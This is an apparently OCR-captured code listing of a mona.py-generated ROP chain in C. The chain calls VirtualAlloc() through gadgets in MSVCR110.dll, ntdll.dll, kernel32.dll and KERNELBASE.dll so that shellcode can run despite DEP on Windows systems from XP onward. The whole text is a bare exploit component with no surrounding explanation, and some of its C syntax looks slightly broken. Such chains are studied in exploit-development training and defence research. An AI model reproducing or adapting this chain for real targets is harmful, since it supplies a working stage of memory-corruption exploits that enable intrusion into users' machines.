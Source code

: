 ```
--------------------------------------------

ROP Chain for VirtualAlloc() [(XP/2003 Server and up)] :
--------------------------------------------------------
*** [ C ] ***

  #define CREATE_ROP_CHAIN(name, ...) \
    int name##_length = create_rop_chain(NULL, ##__VA_ARGS__); \
    unsigned int name[name##_length / sizeof(unsigned int)]; \
    create_rop_chain(name, ##__VA_ARGS__);

  int create_rop_chain(unsigned int *buf, unsigned int )
  {
    // rop chain generated with mona.py - www.corelan.be
    unsigned int rop_gadgets[] = {
      0x693a2e92,  // POP ECX // RETN [MSVCR110.dll] 
      0x693bd19c,  // ptr to &VirtualAlloc() [IAT MSVCR110.dll]
      0x69353486,  // MOV EAX,DWORD PTR DS:[ECX] // RETN [MSVCR110.dll] 
      0x779f9dca,  // XCHG EAX,ESI // RETN [ntdll.dll] 
      0x69370742,  // POP EBP // RETN [MSVCR110.dll] 
      0x75dac58d,  // & call esp [KERNELBASE.dll]
      0x6932ea52,  // POP EAX // RETN [MSVCR110.dll] 
      0xffffffff,  // Value to negate, will become 0x00000001
      0x69353746,  // NEG EAX // RETN [MSVCR110.dll] 
      0x75da655d,  // XCHG EAX,EBX // ADD BH,CH // DEC ECX // RETN 0x10 [KERNELBASE.dll] 
      0x77216829,  // POP EAX // RETN [kernel32.dll] 
      0x41414141,  // Filler (RETN offset compensation)
      0x41414141,  // Filler (RETN offset compensation)
      0x41414141,  // Filler (RETN offset compensation)
      0x41414141,  // Filler (RETN offset compensation)
      0xa2800fc0,  // put delta into eax (-> put 0x00001000 into edx)
      0x7721502a,  // ADD EAX,5D800040 // RETN 0x04 [kernel32.dll] 
      0x771abd3a,  // XCHG EAX,EDX // RETN [kernel32.dll] 
      0x41414141,  // Filler (RETN offset compensation)
      0x69329bb1,  // POP EAX // RETN [MSVCR110.dll] 
      0xffffffc0,  // Value to negate, will become 0x00000040
      0x69354484,  // NEG EAX // RETN [MSVCR110.dll] 
      0x771d0946,  // XCHG EAX,ECX // RETN [kernel32.dll] 
      0x6935e68f,  // POP EDI // RETN [MSVCR110.dll] 
      0x69354486,  // RETN (ROP NOP) [MSVCR110.dll]
      0x693a7031,  // POP EAX // RETN [MSVCR110.dll] 
      0x90909090,  // nop
      0x69390267,  // PUSHAD // RETN [MSVCR110.dll] 
    };
    if(buf != NULL) {
      memcpy(buf, rop_gadgets, sizeof(rop_gadgets));
    };
    return sizeof(rop_gadgets);
  }

  // use the 'rop_chain' variable after this call, it's just an unsigned int[]
  CREATE_ROP_CHAIN(rop_chain, );
  // alternatively just allocate a large enough buffer and get the rop chain, i.e.:
  // unsigned int rop_chain[256];
  // int rop_chain_length = create_rop_chain(rop_chain, );
```
